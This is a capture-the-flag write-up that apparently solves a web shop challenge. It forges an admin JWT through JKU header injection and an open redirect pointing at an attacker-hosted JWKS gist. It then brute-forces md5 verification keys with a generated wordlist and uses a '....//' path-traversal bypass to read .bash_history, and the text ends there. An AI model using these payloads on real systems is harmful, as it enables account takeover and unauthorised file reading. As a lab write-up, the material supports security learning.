 The challenge seems to be a shop 

![Pasted image 20221015211239](https://user-images.githubusercontent.com/32242199/196248036-a5e06855-fef3-4f29-ad13-35e0ca23f89a.png)


There are two usernames gigi and tony1987
#jwt

## JKU header injection

https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-jku-header-injection

The site uses JWT:
```json
{
    "alg": "RS256",
    "jku": "http://127.0.0.1:5000/24bfaaddbd56755e48876b92144c1be38d56de29/jwks",
    "kid": "ecommerce",
    "typ": "JWT"
}
{
    "fresh": false,
    "iat": 1665860798,
    "jti": "874457cd-779c-4ee7-b92e-1facff6493c8",
    "type": "access",
    "sub": "anonymous",
    "nbf": 1665860798,
    "exp": 1665861698
}
```
AS we can see in the header is using the jku with the public key to validate the private key.
The site is checking that the url of the jku comes form http://127.0.0.1:5000/24bfaaddbd56755e48876b92144c1be38d56de29/ so we need an open redirect to be able to bypass it. Luckily there is an open redirect on vacances:
![Pasted image 20221015211946](https://user-images.githubusercontent.com/32242199/196248260-b1874251-432c-4467-ba2a-faf91c1e2c9e.png)
we can see we can redirect outside but there is a banner telling us that we can FW to internet only to https://gist.githubusercontent.com
The jkws of the web is on /jwks
```
{"keys":[{"alg":"RS256","e":"AQAB","kid":"ecommerce","kty":"RSA","n":"zxD-vevQFBWEd1vb-95pzhJuYRCgifVdrCMciaQ-NaZupQVIsqISzxT_lbd1m2ngSDGiSdmURs9rOWzPySqKsmzTNqIurYGZyJy10AX9KELVkPNoLMBJXUgKtWncr4o9z7-Yv29n9MoivkyV5nncCQ19O_5C0ALfFUcme0X_qBZhaK19psRe4OteBi9kXboRH6ddlwJBhG3Qaz3tnEmh87YmwazwVWSx_Em0maEz44GeaFquY8MfLE11QGFu9bCsE073DugJYCC-ZhO_HNi17LELE0M80dkNmkdIBm46dDzs-0YW8hBjVK_RMZOqT1UmMz-0XX0r2q3llhZHtM2RBQ","use":"sig"}]}
```

This is the place where we will host out jwks
```
{     
	"kty": "RSA",     
	"e": "AQAB",     
	"kid": "ecommerce",     
	"n": "jezUr8c85DmCeYW4E5ALztIab-Ef-kOR9WHy1dSZer75SxMHJstk-ordfkJ74ZJKWIM2izmL2mFIeSRMxTlNxGWNAFw-HnDxbh9Rb6AXMwDb-Wim9yd1CvrkQDPeR13fvcLYTfulLW85lWDPFNOAgifQuykurt0AyEQ6x3oZgCnd8XRJ0Xa1i0zC5vdfpHxBv_mUJx-z8-iSuy86x1KjS_iLMXN4Wniif3xqkoxhBuXt8friRQnq82wABVV-89qKFXTGH2eR2k0ZVSQAMfpjRUaxfI-AYIMvE72B9OY4jO4-K_4IXyOH_n_01nobS_QFypB_S_Efp7rxIgyd4NIV6w" }
```

After some tryes we found using gigi as sub works

Create the gist with the public key as JWT
![Pasted image 20221015232925](https://user-images.githubusercontent.com/32242199/196248710-b418ef0f-ed32-4146-b44c-12cd9cb703c2.png)


https://gist.githubusercontent.com/Ambrotd/17a6b13cef2ed9d0595abf018d50cf16/raw/3979807021587533d530c38bd856ed55616b8ee8/jwks

```
{
    "alg": "RS256",
    "jku": "http://127.0.0.1:5000/24bfaaddbd56755e48876b92144c1be38d56de29/open_position?position=https://gist.githubusercontent.com/Ambrotd/17a6b13cef2ed9d0595abf018d50cf16/raw/3979807021587533d530c38bd856ed55616b8ee8/jwks",
    "kid": "ecommerce",
    "typ": "JWT"
}


```
chenge the exp time to the next day on epoch time https://www.epochconverter.com/

```
{
    "fresh": false,
    "iat": 1665860798,
    "jti": "874457cd-779c-4ee7-b92e-1facff6493c8",
    "type": "access",
    "sub": "gigi",
    "nbf": 1665860798,
    "exp": 1665955591
}
```



we need to sign it 
![Pasted image 20221015213519](https://user-images.githubusercontent.com/32242199/196248873-b7cee3ee-d554-4707-8886-9ed1179c6359.png)


And we are logged as admin:

![Pasted image 20221015233238](https://user-images.githubusercontent.com/32242199/196248916-e27f68a0-6067-4117-84cd-a46d685e7c9f.png)


But we need to verify the account

``Check your email. You should have received a link like http://gamebox1.reply.it/24bfaaddbd56755e48876b92144c1be38d56de29/verify_registered?key=4c012936c5246171bfa1908f81a5eead``
There is a md5 as example key : 4c012936c5246171bfa1908f81a5eead  this is the md5 of mike1991

We can remember the user of Tony was tony1987  so we will create a list with the names we have right now luciano tony and gigi and the years from 1950 to 2020

```python
names= ["luciano","gigi","tony"]
for name in names:
    for year in range(1950,2020):
        print(name+str(year))

```

Let´s use intruder with the list as the key  http://gamebox1.reply.it/24bfaaddbd56755e48876b92144c1be38d56de29/verify_registered?key=4c012936c5246171bfa1908f81a5eead  and we need to process the list and hash it to md5:
![Pasted image 20221015234326](https://user-images.githubusercontent.com/32242199/196249132-61fa362c-af9a-458e-9c8f-83a0275cff7d.png)


There is a request with a different size:
![Pasted image 20221015235050](https://user-images.githubusercontent.com/32242199/196249166-cfb02f6d-b777-428f-8b41-04c8c4463b51.png)

/24bfaaddbd56755e48876b92144c1be38d56de29/verify_registered?key=55060d3ca52960cb070c5692a0cc814e

Using it gives us a Verification code
![Pasted image 20221015234942](https://user-images.githubusercontent.com/32242199/196249308-34b14ca3-65e0-4fd7-b280-3532bf4a484d.png)


Verification code:
 N45MZAIK
The code is correct and there is a new page:
![Pasted image 20221015235050](https://user-images.githubusercontent.com/32242199/196249418-6e93ed23-3e4c-448d-bdae-296068961f96.png)


Now when we download a report there is a possible lfi
it is filtering ../ so when we input ....// it traslates to ../
![Pasted image 20221016151642](https://user-images.githubusercontent.com/32242199/196249489-165ded3f-3ba2-46e3-b869-ba8772915128.png)


We cant access /etc/passwd but its possible to read files from the same folder accessing .bash_history
![Pasted image 20221016151808](https://user-images.githubusercontent.com/32242199/196249548-37b91d74-9662-4bc7-a419-95fcffc16d21.png)

There is a interesting file under /home/web3/scripts
![Pasted image 20221016151907](https://user-images.githubusercontent.com/32242199/196249606-ac1b598c-3aab-40f6-a6b5-2eea54159d7a.png)
